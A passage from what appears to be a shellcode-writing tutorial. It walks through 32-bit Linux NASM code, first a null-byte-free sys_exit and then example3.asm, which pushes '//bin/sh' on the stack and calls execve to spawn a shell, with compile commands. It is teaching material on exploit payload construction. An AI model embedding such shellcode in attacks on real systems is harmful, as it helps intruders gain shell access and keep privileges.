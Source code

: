 ```nasm
  mov al, 1       ; sys_exit system call 
                  ; (mov eax, 1) with remove 
                  ; null bytes
  xor ebx, ebx    ; no errors (mov ebx, 0)
  int 0x80        ; call sys_exit
```

To compile it use the following commands:       
```bash
nasm -f elf32 -o example2.o example2.asm
ld -m elf_i386 -o example2 example2.o
./example2
```

![example2 shellcode](./images/12/2021-10-11_12-57.png){width="80%"}    

As you can see our program spawn a shell, via `execve`:

![man execve](./images/12/2021-10-11_13-03.png){width="80%"}    

Note: `system("/bin/sh")` would have been a lot simpler right? Well the only problem with that approach is the fact that `system` always drops privileges. 

So, `execve` takes 3 arguments:
* The program to execute - EBX
* The arguments or `argv(null)` - ECX
* The environment or `envp(null)` - EDX

This time, we'll directly write the code without any null bytes, using the stack to store variables (`example3.asm`):

```nasm
; run /bin/sh and normal exit
; author @cocomelonc
; nasm -f elf32 -o example3.o example3.asm
; ld -m elf_i386 -o example3 example3.o && ./example3
; 32-bit linux

section .bss

section .text
  global _start   ; must be declared for linker

_start:           ; linker entry point

  ; xoring anything with itself clears itself:
  xor eax, eax    ; zero out eax
  xor ebx, ebx    ; zero out ebx
  xor ecx, ecx    ; zero out ecx
  xor edx, edx    ; zero out edx

  push eax        ; string terminator
  push 0x68732f6e ; "hs/n"
  push 0x69622f2f ; "ib//"
  mov ebx, esp    ; "//bin/sh",0 pointer is ESP
  mov al, 0xb     ; mov eax, 11: execve
  int 0x80        ; syscall

```
